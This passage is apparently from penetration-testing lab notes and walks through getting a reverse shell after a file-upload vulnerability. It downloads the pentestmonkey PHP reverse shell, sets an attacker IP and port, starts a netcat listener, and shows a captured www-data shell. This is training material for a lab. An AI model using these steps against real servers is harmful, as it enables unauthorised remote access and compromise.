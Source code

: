 **💡 Pro Tip:** When using custom web shells in browsers, use source-view (`Ctrl+U`) to see command output as it would appear in terminal, without HTML rendering affecting the formatting.


## Reverse Shell

> **🔄 Direct Connection:** Establish reverse connection back to attacker machine for full interactive shell

### Using Existing Reverse Shell Scripts

**Popular Reverse Shell Resources:**
- **Pentestmonkey PHP Reverse Shell** - Reliable and feature-rich
- **SecLists Reverse Shells** - Multiple languages and frameworks
- **RevShells.com** - Online reverse shell generator

### Pentestmonkey PHP Reverse Shell Setup

**Step 1: Download and Configure**
```bash
# Download pentestmonkey PHP reverse shell
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

# Edit configuration (lines 49-50)
$ip = '10.10.14.55';    // CHANGE THIS - Your IP
$port = 4444;           // CHANGE THIS - Your listening port
```

**Step 2: Start Netcat Listener**
```bash
nc -lvnp 4444
```

**Step 3: Upload and Execute**
```bash
# Upload php-reverse-shell.php through vulnerable upload form
# Navigate to: http://SERVER_IP:PORT/uploads/php-reverse-shell.php
# Reverse shell connection established
```

**Expected Connection:**
```bash
kabaneridev@htb[/htb]$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.55] from (UNKNOWN) [188.166.173.208] 35232
Linux target 4.15.0-72-generic #81-Ubuntu SMP Tue Nov 26 12:20:02 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
# id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
# whoami
www-data
```

### Reverse Shell Advantages
- **Full interactive shell** - Complete terminal functionality
- **Better stability** - More reliable than web shells
- **Direct connection** - No need for web interface
- **File transfer capabilities** - Easy upload/download
- **Tunneling possibilities** - Can tunnel other tools

---